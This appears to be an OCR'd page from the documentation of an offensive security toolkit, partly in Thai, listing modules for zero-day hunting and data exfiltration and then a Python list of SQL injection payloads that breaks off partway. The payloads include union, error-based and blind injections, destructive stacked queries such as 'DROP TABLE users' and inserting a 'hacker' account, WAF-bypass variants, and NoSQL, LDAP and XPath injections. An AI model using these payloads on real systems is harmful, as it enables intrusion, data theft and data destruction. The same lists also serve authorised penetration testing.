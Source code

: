 **Zero-Day Discovery:**
```
advanced_agents/zero_day_hunter.py  → Real fuzzing & discovery
```

**Data Exfiltration:**
```
data_exfiltration/exfiltrator.py    → Real data extraction
agents/data_exfiltration_agent.py    → Real file downloads
```

#### 1.2.2 Payload Database Verification
**ตรวจสอบว่ามี payload จริงครบถ้วน:**

**SQL Injection Payloads (100+ payloads):**
```python
SQLI_PAYLOADS = [
    # Basic Union-based
    "' UNION SELECT NULL--",
    "' UNION SELECT NULL,NULL--",
    "' UNION SELECT NULL,NULL,NULL--",
    
    # Error-based
    "' AND 1=CONVERT(int, (SELECT @@version))--",
    "' AND 1=CAST((SELECT @@version) AS int)--",
    "' AND EXTRACTVALUE(1, CONCAT(0x7e, (SELECT @@version), 0x7e))--",
    
    # Time-based Blind
    "'; WAITFOR DELAY '00:00:05'--",
    "' OR SLEEP(5)--",
    "' AND (SELECT * FROM (SELECT(SLEEP(5)))a)--",
    
    # Boolean-based Blind
    "' AND 1=1--",
    "' AND 1=2--",
    "' AND (SELECT COUNT(*) FROM information_schema.tables)>0--",
    
    # Stacked Queries
    "'; DROP TABLE users--",
    "'; INSERT INTO users VALUES ('hacker','password')--",
    
    # Second-order
    "admin'--",
    "admin'/*",
    "admin'#",
    
    # Bypass WAF
    "'/**/UNION/**/SELECT/**/NULL--",
    "'+UNION+SELECT+NULL--",
    "'%20UNION%20SELECT%20NULL--",
    
    # NoSQL Injection
    "' || '1'=='1",
    "' && '1'=='1",
    "' || this.password.match(/.*/)",
    
    # LDAP Injection
    "*)(uid=*))(|(uid=*",
    "*)(|(password=*))",
    
    # XPath Injection
    "' or '1'='1",
    "' or 1=1 or ''='",
    "x' or name()='username' or 'x'='y",
    
```